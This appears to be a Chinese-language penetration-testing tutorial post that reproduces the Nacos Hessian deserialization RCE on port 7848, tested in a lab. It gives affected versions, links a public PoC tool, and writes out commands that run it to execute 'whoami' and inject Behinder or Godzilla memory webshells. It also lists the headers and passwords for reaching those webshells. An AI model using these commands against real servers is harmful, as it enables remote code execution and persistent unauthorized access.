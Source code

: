 ![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaTEqrGSjgdnmfHOnGyjuXgrJJCQricIKkZj842tJtdoVtWVc2GIBA9fQ/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaf6QDfDALneyic81IicRCoofd1NmuvDt8pLN0DhYNb8CiaQz8P5FibHGDMQ/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
我只是复现到这了，试了几个，没成功就停了。  
  
这个是靶场成功的链接  
  
内网渗透 -春秋云镜篇之Hospital-腾讯云开发者社区-腾讯云  
### 8.Nacos Hessian 反序列化漏洞  
  
由于7848端口采用hessian协议传输数据，反序列化未设置白名单导致存在RCE漏洞。  
  
影响版本：1.4.0<=Nacos<1.4.6, 2.0.0<Nacos<2.2.3  
  
Nacos 1.x在单机模式下默认不开放7848端口，故该情况通常不受此漏洞影响，但是集群模式受影响。然而，2.x版本无论单机或集群模式均默认开放7848端口。  
  
主要受影响的是7848端口的Jraft服务。  
  
漏洞复现  
  
测试版本nacos 2.2.2  
  
poc：https://github.com/c0olw/NacosRce  
```
```  
  
执行命令同时注入内存马  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiauRx7CocqfL7tSOPPwzvCOQlCicwmaTWM009ibP6fiaEsGp7b9BrlGV3VQ/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
直接使用webshell管理工具进行链接即可  
  
自动注入内存马并执行命令 java -jar NacosRce.jar Url Jraft端口 "Command"  
  
java -jar NacosRce.jar http://192.168.90.1:8848/nacos  7848 "whoami"  
  
只注入内存马  
  
java -jar NacosRce.jar http://192.168.90.1:8848/nacos 7848 memshell  
  
  
内存马说明：  
  
一、冰蝎内存马：  
  
1、需要设置请求头x-client-data:rebeyond  
  
2、设置Referer:https://www.google.com/  
  
3、路径随意  
  
4、密码rebeyond  
  
二、哥斯拉内存马：  
  
1、需要设置请求头x-client-data:godzilla  
  
2、设置Referer:https://www.google.com/  
  
3、路径随意  
  
